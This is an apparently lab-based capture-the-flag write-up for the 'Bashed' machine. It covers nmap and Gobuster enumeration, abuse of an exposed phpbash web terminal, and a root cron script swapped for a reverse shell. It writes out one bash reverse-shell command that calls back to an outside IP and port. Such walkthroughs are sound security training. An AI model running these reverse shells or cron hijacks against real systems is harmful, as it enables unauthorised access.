 # @author:M3tr1c_r00t
## Bashed!
![Bashed](https://user-images.githubusercontent.com/99975622/202862039-e78a24cc-0f68-40f4-a49d-75a9ffd2fede.png)

### Enumeration
Step 1: nmap and Gobuster 
![Screenshot_2022-11-16_20_23_00](https://user-images.githubusercontent.com/99975622/202862058-77be6473-4c70-4736-88de-554dcfb1fb2a.png)
Only one port is open. So lets visit it.
![Screenshot_2022-11-16_20_24_37](https://user-images.githubusercontent.com/99975622/202862155-cfc96543-4ebd-459d-96e0-703855abf6ba.png)
The site was working on a feature known as phpbash. Which is kind of an emulation of the terminal but in a site format.

After interacting for a while I found a way that i could use to get a reverse shell.
I created a reverse shell file bash script...
![Screenshot_2022-11-16_20_25_50](https://user-images.githubusercontent.com/99975622/202862582-4286437c-3d8f-4eec-85bb-56c5820099da.png)
echo "bash -c'bash -i >& /dev/tcp/10.10.14.99/1234 0>&1'" > reverse.sh
![Screenshot_2022-11-16_20_26_09](https://user-images.githubusercontent.com/99975622/202862671-8251b9ce-40d6-4039-858d-61ebd57f5a23.png)
And we got our reverse shell!

We can now read the user flag.
### Priv Esc
looking around in our the user's file system, we find a folder 'scripts'. 
In it there are two files.

![Screenshot_2022-11-16_20_27_49](https://user-images.githubusercontent.com/99975622/202862861-494c426e-6b98-4e95-9f46-83c2cb3f9d0a.png)
On checking out the two files, it seems like the test.py is being executed in a cron cycle....
![Screenshot_2022-11-16_20_27_55](https://user-images.githubusercontent.com/99975622/202862962-4ad54918-7bad-480e-b974-407c570252ab.png)![Screenshot_2022-11-16_20_29_36](https://user-images.githubusercontent.com/99975622/202863235-dff171b4-886d-4a31-af62-eb69e51bb403.png)

We can replace the file with a python reverse shell coz the script is being run by the root user.





